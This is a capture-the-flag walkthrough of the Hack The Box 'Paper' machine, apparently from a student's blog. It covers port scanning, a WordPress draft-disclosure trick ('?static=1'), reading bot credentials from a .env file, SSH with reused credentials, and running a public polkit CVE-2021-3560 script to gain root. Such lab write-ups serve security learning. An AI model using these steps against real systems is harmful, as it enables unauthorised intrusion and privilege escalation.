





> Forenote

```md
Google's “20% Time”, inspired by Sergey Brin's and Larry Page's Montessori School experience, is a philosophy and policy that every Google employee spends 20% of their time (the equivalent of a full work day each week) working on ideas and projects that interest that employee. Ideas like Gmail, Google News, and AdSense have been developed from this working model. 

This website is a project I am working on in my senior English literature and composition course. During this project I will be spending 20% of my class time working on developing my idea through a progressive process to its final product. This website will be a space where I update visitors on the progress of my idea for this project. Thank you for visiting and I hope you follow along on my journey.

D’Onfro, Jillian. “The Truth about Google’s Famous ‘20% Time’ Policy.” Business Insider, Business Insider, 17 Apr. 2015, http://www.businessinsider.com/google-20-percent-time-policy-2015-4  
```

# Paper

This challenge was incredibly simple yet fun to play around in. There were hints across each step along the way, however it took time to notice and trial and error.

Let's get started!

## Recon

<code></code>

### nmap

```console
└──╼ #nmap -sC -sV -sS -A -p- 10.10.11.143
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-11 22:28 EST
Nmap scan report for 10.10.11.143
Host is up (0.028s latency).
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTTP Server Test Page powered by CentOS
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-title: HTTP Server Test Page powered by CentOS
| http-methods: 
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=2/11%OT=22%CT=1%CU=42296%PV=Y%DS=2%DC=T%G=Y%TM=6207299
OS:8%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=106%TI=Z%CI=Z%TS=A)SEQ(SP=1
OS:04%GCD=1%ISR=106%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M505ST11NW7%O2=M505ST11NW7%O
OS:3=M505NNT11NW7%O4=M505ST11NW7%O5=M505ST11NW7%O6=M505ST11)WIN(W1=7120%W2=
OS:7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M505NNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops

TRACEROUTE (using port 995/tcp)
HOP RTT      ADDRESS
1   27.30 ms 10.10.14.1
2   27.30 ms 10.10.11.143

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 87.24 seconds
```

### gobuster

```console
└──╼ #gobuster fuzz -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.11.143/FUZZ -b "404"
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.143/FUZZ
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Excluded Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/02/11 22:33:42 Starting gobuster in fuzzing mode
===============================================================
Found: [Status=301] [Length=235] http://10.10.11.143/manual
Progress: 66278 / 220561 (30.05%)                         ^C
[!] Keyboard interrupt detected, terminating.
                                                           
===============================================================
2022/02/11 22:36:44 Finished
===============================================================
```

Though I didn't finish gobuster til completion, there was no more progress to be made so I cut it short to not waste time. **It is a safer practice to let it go til completion.**

### nikto

```console
└──╼ $nikto -host http://10.10.11.143/
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.11.143
+ Target Hostname:    10.10.11.143
+ Target Port:        80
+ Start Time:         2022-02-11 23:03:11 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ Uncommon header 'x-backend-server' found, with contents: office.paper
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-powered-by header: PHP/7.2.24
+ Allowed HTTP Methods: HEAD, GET, POST, OPTIONS, TRACE 
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
```

> Uncommon header 'x-backend-server' found, with contents: office.paper

This is our vector. In order to accomodate for the backend-server, we need to modify our own `/etc/hosts` file to add `office.paper` associated to our ip.

```console
# Host addresses
127.0.0.1  localhost
127.0.1.1  zyphen
::1        localhost ip6-localhost ip6-loopback
ff02::1    ip6-allnodes
ff02::2    ip6-allrouters
10.10.11.143 office.paper
```

<code></code>

### Office.paper

After scanning through the new webpage, we notice an odd comment with one of the posts.

In the `Feeling Alone!` post, Nick tells Michael not to leave anything in the drafts.

This means there is likely an exploit related to viewing drafts in wordpress.

> <https://www.exploit-db.com/exploits/47690>

By attaching `?static=1` to the base url, we may now see all drafts on the webpage

<code></code>

There is a link to a chat room... Which I have blurred out.

### Recyclops

We can now create an account on the chat page and start more reconnaissance. 

<code></code>

In the general chat, after scrolling up a bit, we should see a post made by this bot. With the knowledge of its commands in chat, we can now dm the bot our commands. 

Something I noticed in particular was the .env in hubot's folder. It contained a login with username and password, but this could also be Dwight's own password.

<code></code>

## User

We can ssh as dwight using the password given and we now have access to the user hash. 

```console
└──╼ #ssh dwight@10.10.11.143
The authenticity of host '10.10.11.143 (10.10.11.143)' can't be established.
ECDSA key fingerprint is SHA256:2eiFA8VFQOZukubwDkd24z/kfLkdKlz4wkAa/lRN3Lg.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.143' (ECDSA) to the list of known hosts.
dwight@10.10.11.143's password: 
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Fri Feb 11 23:26:34 2022 from 10.10.14.216
[dwight@paper ~]$ ls
bot_restart.sh  hubot  sales  user.txt
[dwight@paper ~]$ cat user.txt 
********************************
```

## Privilage Escalation

### Linpeas

Linpeas is a software used to find vulnerabilities in a system. This can be run using low level permissions, but gives a detailed account on each topic. 

Generally for privesc, we want to look at possibilities of sudo.

Under the topic `Sudo version`, it states it is vulnerable to `CVE-2021-3560`.

> <https://github.com/Almorabea/Polkit-exploit>

Using python3 to run this script, we now have access to root.

```console
[dwight@paper ~]$ python3 exp.py 
**************
Exploit: Privilege escalation with polkit - CVE-2021-3560
Exploit code written by Ahmad Almorabea @almorabea
Original exploit author: Kevin Backhouse 
For more details check this out: https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/
**************
[+] Starting the Exploit 
id: ‘ahmed’: no such user
id: ‘ahmed’: no such user
id: ‘ahmed’: no such user
id: ‘ahmed’: no such user
id: ‘ahmed’: no such user
id: ‘ahmed’: no such user
id: ‘ahmed’: no such user
id: ‘ahmed’: no such user
id: ‘ahmed’: no such user
id: ‘ahmed’: no such user
id: ‘ahmed’: no such user
id: ‘ahmed’: no such user
[+] User Created with the name of ahmed
[+] Exploit Completed, Your new user is 'Ahmed' just log into it like, 'su ahmed', and then 'sudo su' to root 

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

bash: cannot set terminal process group (11001): Inappropriate ioctl for device
bash: no job control in this shell
[root@paper dwight]# su ahmed
bash: cannot set terminal process group (11001): Inappropriate ioctl for device
bash: no job control in this shell
[ahmed@paper dwight]$ sudo su
bash: cannot set terminal process group (11001): Inappropriate ioctl for device
bash: no job control in this shell
[root@paper dwight]# ls
bot_restart.sh  exp.py  hubot  linpeas.sh  sales  user.txt
[root@paper dwight]# cd /root/
[root@paper ~]# ls
anaconda-ks.cfg  initial-setup-ks.cfg  root.txt
[root@paper ~]# cat root.txt 
********************************
```

We are done!